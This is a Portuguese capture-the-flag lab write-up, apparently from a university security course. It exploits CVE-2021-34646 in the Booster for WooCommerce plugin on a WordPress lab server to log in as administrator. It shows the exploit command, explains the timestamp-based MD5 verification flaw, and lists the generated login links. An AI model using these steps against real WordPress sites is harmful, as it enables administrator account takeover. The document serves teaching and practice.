


# CTF Semana #3 (Wordpress CVE)

## Reconhecimento e recolha de informação

Após aceder à página  **http://ctf-fsi.fe.up.pt:5001**, um servidor WordPress, começamos por navegar por todas as secções da aplicação web, de modo a recolher informações que nos possam ajudar a encontrar e explorar vulnerabilidades.
Assim sendo, depois de uma análise mais detalhada, encontramos as seguintes dependências/plugin na secção "Additional information", da página do produto "WordPress Hosting":

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3


## Pesquisa e escolha da vulnerabilidade

Uma vez identificados os plugins instalados e as versões dos mesmos, procedemos a uma pesquisa de vulnerabilidades que nos permitissem fazer login no servidor como administrador. Encontramos a **CVE-2021-34646**, uma vulnerabilidade do Booster for WooCommerce plugin 5.4.3, que atendia aos nossos requisitos.

## Exploração da vulnerabilidade

Descoberta a vulnerabilidade, fizemos uma pesquisa no Exploit Database deste CVE (disponível [aqui](https://www.exploit-db.com/exploits/50299)), o que nos forneceu passos detalhados de como explorá-la na plataforma:

1. Acedemos a **http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/**, onde identificamos os IDs dos administradores. Verificamos que ID = 1, uma vez que a primeira conta normalmente criada em sites WordPress é a conta do administrator e raramente é alterada.

2. Executamos o script de Python disponível na página, que usava esse mesmo identificador para lançar o ataque:

````bash
$ python3 exploit.py http://ctf-fsi.fe.up.pt:5001 1
````

## Explicação do ataque

1. Foi feita uma solicitação ao URL inicial do site vulnerável com o parâmetro wcj_user_id definido como o ID do usuário que queríamos explorar (neste caso, com ID=1, seria http://ctf-fsi.fe.up.pt:5001/api?wcj_user_id=1).



2. Assim que a solicitação foi enviada, a função reset_and_mail_activation_link() foi executada, permitindo ao usuário recuperar o user_id fornecido, através de um link de verificação gerado que poderia ser usado para verificar o endereço de e-mail. No entanto, como o código de verificação era simplesmente um hash MD5 do momento da solicitação, a vulnerabilidade poderia ser facilmente explorada.

3. Por fim, bastava formar um link de validação de login com uma chave codificada em Base 64 através do timestamp do momento da solicitação, permitindo que o atacante se autenticasse como o administrador do site.

## Resultados

Como resultados obtivemos os seguintes links:

````
Timestamp: Sat, 07 Oct 2023 14:24:29 GMT
Timestamp (unix): 1696688669

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4483648f775bada837cd01ff4912fd7e:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDQ4MzY0OGY3NzViYWRhODM3Y2QwMWZmNDkxMmZkN2UifQ

#1 link for hash 7cdedfcd573df0e2ee6c62f2733ce7e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2NkZWRmY2Q1NzNkZjBlMmVlNmM2MmYyNzMzY2U3ZTgifQ

#2 link for hash 5738fc0222e582b5b6441737cdeff829:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNTczOGZjMDIyMmU1ODJiNWI2NDQxNzM3Y2RlZmY4MjkifQ
````

A partir dos quais conseguimos aceder à plataforma usando a conta do administrador.


